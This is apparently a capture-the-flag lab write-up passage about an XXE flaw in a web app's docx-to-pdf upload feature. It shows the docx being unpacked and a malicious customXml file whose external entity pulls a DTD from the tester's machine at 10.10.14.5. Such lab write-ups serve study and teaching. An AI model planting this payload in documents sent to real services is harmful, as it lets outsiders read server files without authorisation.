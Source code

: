Upload patent seems like an interesting endpoint, so let us check this one out.

![Upload patent](/assets/img/posts/patents/webpage-upload.png)

The upload page seems quite interesting. It states, that the uploaded docx document will be converted into a pdf. Server-side file-parsing can be dangerous! After a bit of research, I found a [great document](https://www.blackhat.com/docs/webcast/11192015-exploiting-xml-entity-vulnerabilities-in-file-parsing-functionality.pdf) showcasing an XXE vulnerability with file-parsing.

### Verifying XXE
In order for us to verify the XXE, we first create a docx document with a malicious xml file.
We can download a sample docx document from [here](https://file-examples.com/index.php/sample-documents-download/sample-doc-download/).

```bash
root@silence:~/extracted# unzip ../sample.docx
Archive:  ../sample.docx
  inflating: [Content_Types].xml
  inflating: _rels/.rels
  inflating: word/document.xml
  inflating: word/_rels/document.xml.rels
  inflating: word/theme/theme1.xml
  inflating: word/settings.xml
  inflating: word/styles.xml
  inflating: word/webSettings.xml
  inflating: word/fontTable.xml
  inflating: docProps/core.xml
  inflating: docProps/app.xml
root@silence:~/extracted# mkdir customXml
```
We extract the docx document and add a customXml folder.

```bash
root@silence:~/extracted/customXml# cat item1.xml
<?xml version="1.0" ?>
<!DOCTYPE xxe [
<!ENTITY % ext SYSTEM "http://10.10.14.5/ext.dtd">
  %ext;
]>
<xxe></xxe>
```
We can now create a malicious xml file, which if the target is vulnerable, should connect to our machine, requesting the ext.dtd file.

